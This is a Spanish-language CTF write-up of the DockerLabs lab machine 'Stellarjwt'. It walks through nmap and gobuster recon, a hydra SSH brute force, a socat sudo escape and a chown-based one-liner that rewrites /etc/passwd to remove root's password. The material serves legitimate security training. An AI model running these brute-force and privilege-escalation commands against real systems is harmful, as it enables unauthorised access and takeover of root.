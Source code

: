 # Stellarjwt

Hoy haremos la máquina "Stellarjwt" de [DockerLabs](https://dockerlabs.es).

Autor: [Alv-fh](https://github.com/Alv-fh)

Dificultad: Fácil

![dock](../../../maquina-Stellarjwt/img/dock.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Fri Oct 25 16:02:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-25 16:02:00 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOj/HRDdBjMOnahF64+funtJuqp9p12aIRd36Qc/LhxP96Vzgbb3TBmmlikTqGqRVAlF24M53fdp9pABYc9Z5c=
|   256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQCVaYlLtT3rl2JLsXE13whHLmBXeknIoPXXK13Du5A
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 16:02:08 2024 -- 1 IP address (1 host up) scanned in 8.62 seconds
```

Los puertos abiertos son los siguientes:

`22: OpenSSH`

`80: Apache httpd`

Ninguna de estas versiones son vulnerables a nada útil, por lo que continuaremos desde el navegador.

**Puerto 80:**

![80](../../../maquina-Stellarjwt/img/80.png)

Al parecer tenemos una página relacionada con la nasa pero sin nada útil, por lo que procederemos a usar `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u http://172.17.0.2 -w <WORDLIST> -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1905]
/universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
Progress: 106383 / 882240 (12.06%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio "universe" al cual si accedemos veremos simplemente una imágen. Si miramos el código fuente veremos muchos comentarios sobre la historia de la nasa, pero en el final veremos un comentario que puede estar cifrado o encriptado de alguna manera:

![comment](../../../maquina-Stellarjwt/img/comment.png)

Si a este lo metemos en [CyberChef](https://gchq.github.io/CyberChef/) con el operador "magic", nos dirá lo siguiente:

```css
{
    "sub": "1234567890",
    "user": "neptuno",
    "iat": 1516239022
}
```

Al parecer tenemos un usuario llamado "neptuno", y si recordamos la página del principio, decía la siguiente pregunta:

"¿Qué astrónomo alemán descubrió Neptuno?"

esto si lo buscamos en google, nos dirá que fue "Johann Gottfried Galle", esto lo meteremos en un archivo llamado "pass.txt" con el siguiente contenido:

```css
Johann
Gottfried
Galle
```

## INTRUSIÓN

Teniendo esta información ejecutaremos `hydra` apuntando al ssh usando el usuario "neptuno" y de wordlist las posibles contraseñas que es el astrónomo:

```css
hydra -l neptuno -P pass.txt ssh://172.17.0.2
```

![hydra](../../../maquina-Stellarjwt/img/hydra.png)

Como vemos, tenemos una contraseña para ssh, por lo cual nos conectaremos usando `ssh neptuno@172.17.0.2` con la contraseña encontrada.

## ESCALADA DE PRIVILEGIOS

#### Neptuno

Si vamos a la home de este usuario, podremos ejecutar `ls -la` y ver los archivos ocultos, que entre ellos se encuentra el siguiente:

```css
.carta_a_la_NASA.txt
```

esta si la leemos, veremos el siguiente mensaje:

```css
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
XXXXXXXXXXXXXXXXXXXXX -> XXXXXXXXXX

Por favor, necesito entrar!!
```

La última pregunta nos dará la contraseña para el usuario "nasa", por lo cual escalamos ejecutando `su nasa` y poniendo su contraseña.

#### Nasa

Ahora si ejecutamos `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for nasa on f683dd6fe6e7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on f683dd6fe6e7:
    (elite) NOPASSWD: /usr/bin/socat
```

como vemos podemos ejecutar el binario `socat` como el usuario "elite", por lo cual luego de buscar en [GTFOBins](https://gtfobins.github.io/) veo que se puede escalar con el siguiente comando:

```css
sudo -u elite socat stdin exec:/bin/bash
```

Una vez ejecutado hacemos el tratamiento de la TTy. [¿Como hacerlo?](broken-reference)

#### Elite

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar el binario `chown` como root, este nos permite cambiar la propiedad de un archivo, teniendo en cuenta esto, lo que haremos será hacer que el directorio "/etc" sea de nuestra propiedad y que el archivo "/etc/passwd" también, luego, modificaremos este último eliminando la "x" del usuario root para que al ejecutar `su` podamos escalar a root sin necesidad de contraseña. Para hacerlo simplemente ejecutamos esto:

```css
sudo chown elite:elite /etc/ && sudo chown elite:elite /etc/passwd && echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd && su
```

Una vez ejecutado ya seremos root.

#### Root

![root](../../../maquina-Stellarjwt/img/root.png)

Gracias por leer.....
